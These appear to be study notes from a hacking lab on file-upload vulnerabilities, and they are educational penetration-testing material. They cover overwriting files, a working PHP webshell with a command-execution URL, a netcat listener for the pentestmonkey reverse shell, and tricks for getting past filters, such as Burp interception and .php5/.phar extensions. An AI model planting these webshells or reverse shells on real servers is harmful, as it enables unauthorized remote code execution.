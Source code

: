 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

remember to change the ip in `php-reverse-shell.php`
![](https://i.imgur.com/cxGA4Bd.png)


and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)



## Filtering

* client-side filtering would run in our browser.
* Filtering occurs before the file uploaded to the server
* javascript is ubiquitous client-side scripting language.

Filtering kinds:
* Extension Validation : identify the contents of a file
	* Blacklist Extension
	* Whitelist Extension
* File Type Filtering
	* **Multipurpose Internet Mail Extension**(MIME) **validation** : transfer attach over email or HTTP(S)
	* **Magic number validation**
* File Name filtering
* File Length filtering out null byte
* Flie Content filtering

### Client-side
* Turn off javascript in browser
* Intercept & modify incoming page : using Burpsuite before the web page is loaded
* Intercept & modify file upload
* Send the file directly to the upload point : using `curl` to send the POST

remember to use GOBUSTER!


exmaple of whitelist code :
![](https://i.imgur.com/XRDetca.png)

by default BurpSuite would not intercept external js files
remove the `^js$|` in first line in options:
![](https://i.imgur.com/su3Ugwp.png)


reload homepage & Intercept the **response to this request** & forward:
![](https://i.imgur.com/yZDbm47.png)

if the functions are not inline:
Forward to the right script & Intercept the** Response to this request**
![](https://i.imgur.com/siOxfsG.png)

### Server-side
a example of php code to filter out
```php
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```

* this code search for the last period `.`
* block out `.php` `.phtml`
* most of them only block this 2 extensions, but we can use `.php5` `.phar`
* especially for the system that didn't update the filter configuration